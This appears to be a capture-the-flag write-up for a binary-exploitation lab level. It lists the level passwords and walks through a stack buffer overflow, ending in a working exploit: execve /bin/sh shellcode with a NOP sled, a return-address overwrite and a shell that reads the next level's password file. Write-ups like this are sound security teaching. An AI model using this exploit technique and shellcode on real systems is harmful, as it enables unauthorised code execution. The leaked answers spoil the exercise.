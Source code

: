 # Level01 -

## Local script usage

Requirements:

- `gdb-peda`
- `getenv32`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level01/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level01 | `uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL` |
| level02 | `PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv` |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

As we can see, in the second prompt, `fgets` takes 0x64 bytes, but the buffer can only takes 0x48 (cf. `main+8`: `sub esp, 0x60`).

Lets see if we can overflow this buffer and write the return address.

```shell
gdb-peda$ b*main+169
gdp-peda$ run < <(python -c 'print "dat_wil\n" + "A" * 0x48')

gdb-peda$ x/24x $esp+0x1c
0xffffd5ec:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5fc:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd60c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd61c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd62c:     0x41414141      0x41414141      0x0000000a      0x00000000
0xffffd63c:   [ 0xf7e45513 ]    0x00000001      0xffffd6d4      0xffffd6dc

p 0x48 + 8
$3 = 0x50 # => offset
```

We have an offset of 0x50.

Lets build our exploit

```shell
export SHELLCODE=`python -c "print '\x90' * 0xff + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"`

./getenv32 SHELLCODE ~/level01
  0xffffd755

python -c 'print "dat_wil\n" + "A" * 0x50 + "\x55\xd7\xff\xff"' > /tmp/exploit01
```

And finally get the pass

```shell
cat /tmp/exploit01 - | ~/level01
  ********* ADMIN LOGIN PROMPT *********
  Enter Username: verifying username....

  Enter Password:
  nope, incorrect password...

$ whoami
  level02
$ cat /home/users/level02/.pass
  PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)

### C

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strncmp](https://linux.die.net/man/3/strncmp)

